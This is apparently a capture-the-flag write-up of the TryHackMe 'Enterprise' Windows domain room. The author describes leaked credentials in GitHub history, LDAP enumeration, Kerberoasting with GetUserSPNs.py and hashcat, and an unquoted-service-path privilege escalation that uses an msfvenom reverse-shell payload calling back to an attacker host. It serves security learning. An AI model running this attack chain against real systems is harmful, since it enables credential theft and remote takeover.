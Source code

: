 # Enterprise

https://tryhackme.com/room/enterprise

A windows machine, which is an area I don't have much experience in (ironically, since my main PCs are all windows machines, for gaming etc). I tapped away at it for a few days, learning heaps, but ultimately required a hint to get a foothold. Just one though!

Enumeration revealed dozens of ports, as is typical for windows. Importantly, there were three websites, SMB, RDP and LDAP ports open, so these were enumerated seperately.

## HTTP

The websites had nothing on them, no hidden directories etc. Robots.txt under :80 contained nothing but a statement saying robots was silly on a domain controller server, which is accurate.

Another of the websites though, port 7990 had an atlassian login page. A glance at the source showed it was a cloned copy of an atlassian page, not functional. On the heading of the page though, was the message: "Reminder to all Enterprise-THM Employees: We are moving to Github!".

I did a search on github for "Enterprise-THM" and found a user/org with a single repo, containing nothing of note. The org had another user under "People", who went I went through had a powershell script available. The script ran against AD, but had a blank username and password. HOWEVER, under its history, the original files had those values still present! So I had a valid user and password for the machine, for a user named 'nik'.

## SMB

There were two folders I could reach under SMB, Docs and Users. Docs contained two office documents, a word doc and an excel sheet, both 'RSA' protected. I couldn't open them without a password, and trying to crack these with office2john got me nowhere.

Under Users, I had basically the Users directory on windows shared. As an anonymous user, I could access LAB-ADMIN, but nothing immediately stood out; most folders were empty. Under AppData though, I got the powershell command history, which revealed another username / password, being used as basic auth against some service. I couldn't see how to use these, and they might have been a red herring.

## LDAP

with the nik user, I could enumerate LDAP. I used several commands for this:

`ldapsearch -h 10.10.12.162 -b "DC=LAB,DC=ENTERPRISE,DC=THM" -x -D "nik" -w "<redacted>" | grep password` revealed there was a password in the system for a user

I used `ldapdomaindump 10.10.12.162 -u "LAB.ENTERPRISE.THM\nik" -p "<redacted>" -o results` to get a more browsable version, which identified a second username and password for the user `contractor-temp`, who was part of the `sensitive-users` group.

## MSTSC / RDP

Neither nik nor corporate-temp could log in over RDP, so moving on.

## SPN / Kerberoasting

This was the thing I required a tip for: I had never heard of SPNs before / andor conducted kerberoasting remotely.

With these two users, nik and corporate-temp, I used the command `python2 ./GetUserSPNs.py LAB.ENTERPRISE.THM/contractor-temp:redacted` to list service principle names. It revealed one for a user name 'bitbucket'. Using the same command with `-request` got me a hash, which I then cracked with hashcat via `hashcat -m 13100 hash rockyou.txt` to get the bitbucket user's password.

## MSTSC / RDP again and/or SMB

The bitbucket user *could* connect over RDP, so I did and got the user flag. Notably, I could also use this user with SMBClient which gave me direct access to their User folder via the Users share, where the user flag was also retrievable.

## Privesc to root

For privesc, I started by looking for unquoted service paths, and immediately discovered a service where this was true and I had the right write access.

Initially I used PowerUp (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) for this, which gave me a command to run to create a compromised binary, however the service would not start. I suspect because this would add a user, and that wasn't permitted. Instead I used the following msfvenom command: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.173.117 LPORT=4444 -f exe-service -o Zero.exe`, which I dropped at `c:\Program Files (x86)\Zero Tier\Zero.exe`, then started the service via `Start-Service` and boom, I had a system shell :) THe final flag was in the Desktop folder of the Administrator user.
